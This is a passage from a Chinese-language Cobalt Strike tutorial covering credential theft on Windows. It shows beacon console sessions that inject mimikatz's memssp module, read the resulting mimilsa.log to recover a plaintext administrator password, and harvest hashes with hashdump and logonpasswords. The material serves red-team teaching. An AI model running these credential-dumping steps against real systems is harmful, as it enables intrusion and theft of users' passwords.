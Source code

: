 ```
```
beacon> mimikatz !misc::memssp
[*] Tasked beacon to run mimikatz's !misc::memssp command
[+] host called home, sent: 1006151 bytes
[+] received output:
Injected =)
```

接下来来到`C:\Windows\system32`目录

```
beacon> cd C:\Windows\system32
[*] cd C:\Windows\system32
[+] host called home, sent: 27 bytes
 
beacon> shell dir mimilsa.log
[*] Tasked beacon to run: dir mimilsa.log
[+] host called home, sent: 46 bytes
[+] received output:
 驱动器 C 中的卷没有标签。
 卷的序列号是 BE29-9C84
 
 C:\Windows\system32 的目录
 
2020/07/23  21:47                24 mimilsa.log
               1 个文件             24 字节
               0 个目录 17,394,728,960 可用字节
```

可以看到是存在`mimilsa.log`文件的，此时待目标主机重新登录，比如电脑锁屏后用户进行登录。

查看`mimilsa.log`文件内容。

```
beacon> shell type mimilsa.log
[*] Tasked beacon to run: type mimilsa.log
[+] host called home, sent: 47 bytes
[+] received output:
[00000000:000003e5] \    
[00000000:002b99a7] WIN-75F8PRJM4TP\Administrator    Password123!
```

成功获取到当前登录用户的明文密码。

### Credential and Hash Harvesting

需要在管理员权限的session下执行。

想要获取凭证信息，可以在管理员权限的会话处右击选择`Access --> Dump Hashes`，或者在控制台中使用`hashdump`命令。

![image-20240228173042362](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202402281730514.png)

想获取当前用户的密码，可以运行`mimikatz`，右击管理员权限会话选择`Access --> Run Mimikatz`，或在控制台运行`logonpasswords`命令。

![image-20240228173025010](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202402281730161.png)

在`View --> Credentials`下可以查看到`hashdump`与`mimikatz`获取的数据。

![image-20240228173105853](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202402281731994.png)

```